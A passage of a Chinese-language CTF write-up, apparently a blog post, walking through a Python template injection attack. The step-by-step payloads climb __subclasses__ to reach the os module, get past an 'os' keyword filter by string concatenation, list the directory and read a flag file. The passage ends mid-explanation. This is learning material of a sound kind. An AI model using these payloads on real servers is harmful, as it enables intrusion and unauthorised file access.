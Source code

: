 ![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538569557023.jpg)

成功的得到了2，于是确定其为模板引擎注入问题。
接下来根据`Python`语言的特性，我们需要调用`OS`中的命令，于是开始尝试

```Python
{{os.listdir('.')}}
```

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538571127265.jpg)

结果一个error让我明白，后台也进行了一些敏感字符如`OS`的规避措施，所以尝试通过访问os模块的方法来利用os模块

```Python
{{[].__class__.__base__.__subclasses__()}}
```

采用这一段来尝试果然成功得到了一堆的模块

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538572428798.jpg)

查阅`OS`模块的所在处得知，一般都是从`warnings.catch_warnings`模块入手的，于是查看`warnings.catch_warnings`的索引为`59`，然后我们再用`func_globals`看看该模块有哪些`global`函数
通过组合之前的模块参数，我们可以在输入框中输入

```Python
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}
```

得到结果

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538575112600.jpg)

从中我们发现了`linecache`，我们需要的`OS`模块就在这里，现在我们需要得知该模块下的各个属性，于是输入

```Python
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__}}
```

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538577086805.jpg)

通过搜索`OS`我们找到属性里面的确有OS的引用，接下来就可以调用OS模块了，但是由之前的步骤得知，`OS`是被规避掉的关键字，于是使用Python的字符拼接的方式`'o'+'s'`来表示`OS`
而且我们可以使用`OS`下的`read()` `open()` `listdir('.')`来获取该目录下的文件目录信息，打开和读取文件。
我们先查看目录

```Python
{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].listdir('.')}}
```

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538579658430.jpg)

清楚的看到有一个flag文件，答案就基本出来了，接下来，read该文件就好

```Python
os.read(os.open("flag",os.O_RDONLY),40)
```

当然还是要做一些处理
